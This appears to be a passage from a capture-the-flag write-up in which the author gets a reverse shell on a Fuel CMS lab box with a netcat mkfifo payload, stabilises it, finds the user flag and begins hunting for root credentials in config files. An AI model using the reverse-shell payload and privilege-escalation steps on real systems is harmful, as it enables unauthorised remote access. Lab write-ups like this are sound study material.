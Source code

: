 # Reverse Shell

I didn't want to us a clunky reverse shell, so I went to a [Reverse Shell Generator](https://www.revshells.com/) to generate one that I could connect to using `netcat`.

I used this payload: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> 1234 >/tmp/f`

I then got my netcat listener ready (`nc -lvnp 1234`), can executed the payload with the Python script.

Once I got the reverse shell, I upgraded it so that commands like `su`, `sudo` and `CTRL+C` would work.

![stabilise](./img/ignite/stabilise.png)

To make things clearer, what I did was to:

1. Run `python3 -c 'import pty;pty.spawn("/bin/bash")'` to upgrade the shell
2. Run `CTRL+Z` to background the shell, returning control to my terminal
3. Run `stty raw -echo; fg` to make the shell usable again, changing the terminal settings to raw (having the input sent directly without any processing like line editing), and disabling echo (so that the input is not double printed on the screen). Then, I brought the shell back to the foreground.
4. Run `ls` to ensure that the shell is working properly

Now, we have a stable reverse shell.

# Getting Flags

## User Flag

I first had to locate the user flag. I did this by running

```bash
find / -name user.txt 2>/dev/null
/home/www-data/user.txt
```

as usual, to find the file. I then navigated to the directory and read the flag.

![userflag](./img/ignite/userflag.png)

One flag down!

## Root Flag

This is where it gets more difficult. I had to find a way to escalate my privileges to root. I tried to run `su`, but because I didn't know the password, I didn't mess around with it.

There was still the configuration files that I hadn't explored earlier. On the webserver, I tried to access `/fuel/application/config/database.php`, but was met with a forbidden error.

![forbidden](./img/ignite/database_web.png)
